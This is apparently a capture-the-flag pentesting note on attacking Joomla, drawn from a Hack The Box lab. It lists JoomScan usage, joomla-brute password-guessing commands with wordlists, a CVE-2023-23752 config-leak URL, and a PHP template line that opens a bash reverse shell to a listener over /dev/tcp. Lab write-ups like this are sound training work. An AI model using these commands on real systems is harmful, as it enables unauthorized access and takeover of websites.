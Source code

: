 ## Joomla


get Version

Hacktricks infos: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

Brute Force password: (did work this try)
https://github.com/ajnik/joomla-bruteforce

### Exploit
### CVE-2023-23752: 
- Expolit with this link
  - http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
- Infos and explanation https://vulncheck.com/blog/joomla-for-rce

### Reverse Shell
```shell
# This in php template to connect with netcat:
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.190/8001 0>&1'")
```

### JoomScan
So now we will use joomscan tool. JoomScan is a tool designed for penetration testing of Joomla CMS websites. By default this tool already come pre-installed in the system. To run the joomscan we have to be in that directory where joomscan is.
```shell
perl joomscan.pl -u http://dev.devvortex.htb
```
### Joomla-Brute
```shell
sudo python3 joomla-brute.py -u http://dev.devvortex.htb/administrator/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

sudo python3 joomla-brute.py -u http://dev.devvortex.htb/ -w /usr/share/wordlists/rockyou.txt -usr admin
```
